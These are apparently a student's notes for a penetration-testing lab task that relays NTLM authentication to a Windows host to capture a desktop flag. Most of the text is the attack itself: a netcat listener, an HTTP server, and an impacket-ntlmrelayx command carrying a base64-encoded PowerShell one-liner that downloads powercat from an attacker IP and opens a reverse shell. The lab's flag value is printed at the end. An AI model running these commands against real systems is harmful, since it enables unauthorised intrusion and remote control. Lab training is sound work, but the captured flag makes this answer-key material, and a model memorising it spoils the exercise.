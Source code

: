 # Questions 1
Use the methods from this section to get access to VM #2 (FILES02) of VM Group 1 and obtain the flag on the desktop of the user files02admin. If the bind shell on VM #1 is terminated it may take up to 1 minute until it is accessible again.

# HINT
For base64 encoding, use the commands provided in Listing 32 of ""Using Executable Files"" in Common Web Application Attacks module.
Use the commands provided in Listing 52 of this learning unit to relay your powershell commands.

# Prepare one liner of the powershell
Refer to pwsh-revshell.ps1 #Options 2

python3 -m http.server 80

# Netcat listen
nc -lvnp 6688

# Exploit
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.192.212 -c "powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANwA4AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAIABwAG8AdwBlAHIAYwBhAHQAIAAtAGMAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA3ADgAIAAtAHAAIAA2ADYAOAA4ACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAA="

# Troubleshooting Impacket show missing errors
git clone https://github.com/CoreSecurity/impacket.git
cd impacket
python setup.py install

PS C:\Users\files02admin\Desktop> cat flag.txt
cat flag.txt
OS{6c5ae9778d13c2197418cd20b674101c}

